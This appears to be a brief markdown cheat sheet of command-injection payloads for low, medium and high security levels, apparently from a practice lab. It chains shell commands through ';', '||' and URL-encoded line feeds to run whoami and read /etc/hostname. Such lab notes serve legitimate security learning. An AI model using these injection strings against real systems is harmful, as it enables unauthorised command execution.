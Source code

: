 # Command Injection

## low

```sh
>/dev/null;echo `whoami` `cat /etc/hostname`
```

## medium

```sh
>/dev/null||echo `whoami` `cat /etc/hostname`
```

## high

line feeds

```
>/dev/null%0Awhoami%0Acat%20/etc/hostname
```
